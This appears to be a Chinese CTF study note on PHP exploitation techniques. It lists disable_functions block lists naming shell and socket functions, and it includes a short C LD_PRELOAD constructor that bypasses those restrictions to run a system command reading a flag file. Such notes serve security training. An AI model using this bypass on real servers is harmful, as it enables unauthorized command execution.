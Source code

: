- [[CTF/PHP/弱类型]]
- [[CTF/PHP/可变函数]]
- [[CTF/PHP/无引号字符串]]
- [[CTF/PHP/FFI]]
- [[CTF/PHP/Phar]]
- [[CTF/PHP/内置类]]
- [[CTF/PHP/Session]]
- [[CTF/PHP/反序列化]]
- [[CTF/PHP/特殊标签]]
- [[PHP/忽略错误]]
- [[PHP/模板字符串]]
- [[CTF/PHP/巧用exit()]]
- [[CTF/PHP/运算优先级]]
- [[CTF/PHP/用处特殊的函数]]
- ## disable_function
- ```
  disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
  ```
  
  
  ```
  passthru,system,putenv,chroot,chgrp,chown,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
  ```
  
  不完整版
  
  ```
  passthru,system,chroot,chgrp,chown,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,putenv
  ```
- ## LD_PRELOAD
- ```
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  __attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/wx.txt");
  }
  ```
- ## 传入变量名转换
  
  如果变量名中有 `.` 或者空格，那 PHP 会将其转换成下划线
- ## $ _ SERVER
- `$_SERVER['QUERY_STRING']` 不会进行 url 转义
- ## $ _ REQUEST
- `$_REQUEST` 中 post 的优先级更高
- 由 `phpinfo` 中的 `request_order` 和 `variables_order` 定义
-